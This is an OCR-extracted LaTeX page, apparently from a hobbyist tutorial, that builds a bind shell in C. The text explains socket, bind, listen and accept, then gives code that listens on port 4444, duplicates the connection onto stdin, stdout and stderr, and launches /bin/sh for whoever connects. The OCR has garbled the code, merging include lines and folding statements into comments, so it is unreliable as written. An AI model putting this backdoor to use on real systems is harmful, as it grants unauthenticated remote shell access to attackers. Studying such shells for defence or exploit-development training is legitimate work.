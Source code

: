\documentclass[11pt]{article}
\begin{document}
From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

\begin{itemize}
\item Socket: Open a socket over which we will communicate. Essentially a file descriptor
\item Bind: Bind our socket to an interface on our system
\item Listen: Tell our system that we are ready to start accepting connections
\item Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted
\end{itemize}

Functions we won't worry about:

\begin{itemize}
\item Send
\item Recv
\item Connect
\item Close
\end{itemize}

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

So lets get some code going!

\begin{verbatim}
#include <stdio.h> include <netinet/in.h> define PORT 4444

int main(int argc, char **argv) { // Create a socket int lsock =
socket(AF_INET, SOCK_STREAM, 0);

  // Setup servr side config struct // We configure: // The
  family:IPv4 // The interface: 0.0.0.0 (any) // The port: port#
  struct sockaddr_in config; config.sin_family = AF_INET;
  config.sin_addr.s_addr = INADDR_ANY; config.sin_port =
  htons(PORT);

  // Bind the created socket with the interface // specified in the
  configuration bind(lsock, (struct sockaddr *)&config,
  sizeof(config));

  // Listen on the socket listen(lsock, 0);

  // Accept the incoming connection int csock = accept(lsock, NULL,
  NULL); // Redirect stdin, stdout, and stderror dup2(csock, 0);
  dup2(csock, 1); dup2(csock, 2);

  // Execute a shell execve("/bin/sh", NULL, NULL); };
\end{verbatim}
\end{document}
